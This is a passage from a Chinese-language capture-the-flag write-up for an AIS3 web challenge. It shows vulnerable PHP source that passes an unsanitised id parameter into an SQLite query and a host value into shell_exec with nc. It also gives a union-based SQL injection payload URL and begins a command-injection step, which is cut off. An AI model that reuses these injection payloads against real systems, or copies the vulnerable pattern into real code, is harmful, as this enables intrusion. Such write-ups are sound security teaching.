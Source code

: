 以上這部分都是真・老梗，剛剛翻了一下發現 AIS3 2015、2017、2019 都有出過幾乎一模一樣的東西。話說這樣算起來 `php://filter` 讀原始碼的梗好像只會在奇數年會出現，奇妙的知識增加了欸這到底什麼規律 = =

總之，接下來就能直接讀原始碼了。以下是 `modules/api.php` 的原始碼：

```php
<?php
header('Content-Type: application/json');

include "config.php";
$db = new SQLite3(SQLITE_DB_PATH);

if (isset($_GET['id'])) {
    $data = $db->querySingle("SELECT name, host, port FROM challenges WHERE id=${_GET['id']}", true);
    $host = str_replace(' ', '', $data['host']);
    $port = (int) $data['port'];
    $data['alive'] = strstr(shell_exec("timeout 1 nc -vz '$host' $port 2>&1"), "succeeded") !== FALSE;
    echo json_encode($data);
} else {
    $json_resp = [];
    $query_res = $db->query("SELECT * FROM challenges");
    while ($row = $query_res->fetchArray(SQLITE3_ASSOC)) $json_resp[] = $row;
    echo json_encode($json_resp);
}
```
從以上的 code 可以發現他的 database 是用 SQLite，且 db 路徑是從 `SQLITE_DB_PATH` 這個常數讀取的，那這個常數定義在哪呢？最上面有 include 一個可疑的 `config.php`，再次用 `php://filter` 套路讀取內容後可以得知路徑是 `challenges.db`，而這個檔案可以直接從網站輕鬆下載：http://quiz.ais3.org:8001/challenges.db

#### Step 2: SQL Injection

```php
$data = $db->querySingle("SELECT name, host, port FROM challenges WHERE id=${_GET['id']}", true);
```
這行 code 可以看出 id 參數中有明顯的 SQL injection 洞，最簡單的利用方式是用 union-based 去進行注入，payload 上大致長這樣
```
http://quiz.ais3.org:8001/
?module=modules/api
&id=0 union select "chal_name","example.com", "port_num"--
```
由於在前一步根本已經能下載到完整的 database 了（`challenges.db`），想看資料直接載下來即可，完全不用在此花時間去慢慢注入撈資料（事實上裏面也沒什麼有價值的東西），繼續觀察 SQL injection 能造成什麼更嚴重的危害吧！

#### Step 3: Command Injection

在前面的步驟已經達成了控制 SQL query 出來的 name、host 以及 port，那這樣能幹嘛呢？

```php
$data = $db->querySingle("SELECT name, host, port FROM challenges WHERE id=${_GET['id']}", true);
$host = str_replace(' ', '', $data['host']);
$port = (int) $data['port'];
$data['alive'] = strstr(shell_exec("timeout 1 nc -vz '$host' $port 2>&1"), "succeeded") !== FALSE;
```
